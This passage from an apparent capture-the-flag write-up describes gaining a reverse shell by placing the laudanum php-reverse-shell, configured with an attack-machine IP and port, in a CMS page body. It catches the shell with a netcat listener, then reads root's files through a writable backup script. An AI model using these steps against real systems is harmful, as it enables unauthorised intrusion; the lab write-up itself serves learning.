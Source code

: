 Important steps to follow:

1. Select the **Text format** as `PHP code`
2. Copy the `php-reverse-shell` code to the **Body**. On Kali Linux, it can be found in `/usr/share/laudanum/php/php-reverse-shell.php`
3. Edit the `php-reverse-shell` code and modify the following lines:

    ```
        - $ip = '192.168.56.102'; // Attack machine IP
            
        - $port = 8888; // Desired port
    ```  

4. Open a shell and run `nc -lvp 8888` on attack machine to listen for a reverse shell

Once these steps are completed. Click on the **Preview** button and watch the magic unfold!

![Screen Shot 2019-09-04 at 12.29.50 AM.png](/assets/images/screen-shot-2019-09-04-at-12.29.50-am.png)

Reverse shell! I am finally `www-data`. Hooray!

Okay... back to the game plan. We simply need to modify `/opt/scripts/backups.sh` with the following lines of code:

```
#!/bin/bash
cat /root/\* > /tmp/arj/flag.txt
```

![Screen Shot 2019-09-04 at 12.53.32 AM.png](/assets/images/screen-shot-2019-09-04-at-12.53.32-am.png)

Once this was done, I simply monitored my temporary directory `/tmp/arj` for a file called `flag.txt`.

